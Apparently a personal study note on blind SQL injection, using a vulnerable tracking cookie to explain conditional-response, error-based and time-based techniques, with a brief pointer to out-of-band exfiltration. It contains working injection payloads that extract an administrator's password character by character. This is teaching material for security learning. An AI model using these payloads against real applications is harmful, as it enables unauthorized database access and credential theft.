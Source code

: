 ```yaml
---
Title: Blind SQLi
tags:
  - SQLi
  - BLINDSQL
---
```

Blind SQL is not necessarily being "blind", but rather looking at other intricacies the application returns whenever you inject a query. 

# Exploiting conditional responses

For example, we have this vulnerable cookie.
```
Cookie: TrackingId=abcdefghijklmnopqrstuvwxyz
```
> [!The query that the TrackingId uses ]
> ```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'abcdefghijklmnopqrstuvwxyz'

A successful query will return "Welcome!", and an unsuccessful one will return nothing. We can exploit this functionality by injecting arbitrary sql queries, and constantly checking if the query returns "Welcome!" or not.

> [!Example]
> ```sql
> SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'abcdefghijklmnopqrstuvwxyz' ' AND '1'='1
> -- above returns true
> SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'abcdefghijklmnopqrstuvwxyz' ' AND '1'='2
> -- above returns false

> [!Sample payload]
> ```sql
> -- SUBSTRING(string, position of the string, length of the string(usually 1))
> 
> xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
> -- this function is as follows, where the first letter of the password of administrator is greater than m

# Exploiting Error-Based Condition
Error based sql is focused on error messages that a website returns, and exploiting that to extract sensitive data from the database.

> [!Example]
> ```sql
> xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
> --- in simpler terms: if 1=2, execute 1/0 (1 divided by 0, which returns a database error), else, return 'a'
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a

We can exploit these errors, just like we did in [[Blind SQLi]].
> [!Sample Payload]
> ```sql
> xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
> --- If the condition is true, it should return an error, else, the condition will return true because of 'a' = 'a'

To further understand this, let's create the sample query:
> [!Sample query]
> ```sql
> SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'some-id-here'
> --- now let's say for example this is our payload
> --- '||(SELECT '' FROM dual)'
> --- it will appear on the query that will be executed like this
> SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'some-id-here'||(SELECT '' FROM dual)||'
> --- the inside parameter is like an eval, which returns the string ''.
> 

# Exploiting Time-Based Condition
Time-based sqli is using the delay functionality of sql, which we can exploit, together with the techniques we already used.

> [!Example]
> ```sql
> '; IF (1=2) WAITFOR DELAY '0:0:10'--
> -- if the response is true, it will trigger a 10 second delay before sending a response
'; IF (1=1) WAITFOR DELAY '0:0:10'--

> [!Sample payload]
> ```sql
> '; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--

# Blind sql with out-of-band interaction
In order to test for blind sql with out-of-band interaction, we would usually have to use UNION SELECT alongside our payload.

[[SQLi Cheatsheet#^f484c1 | DNS LOOKUP CHEATSHEET]]
Test out different payloads, url encode them, then see what works. We then proceed with Exfiltrating data, depending on the payload we have.

[[SQLi Cheatsheet#^444252 | DNS LOOKUP WITH DATA EXFILTRATION]]

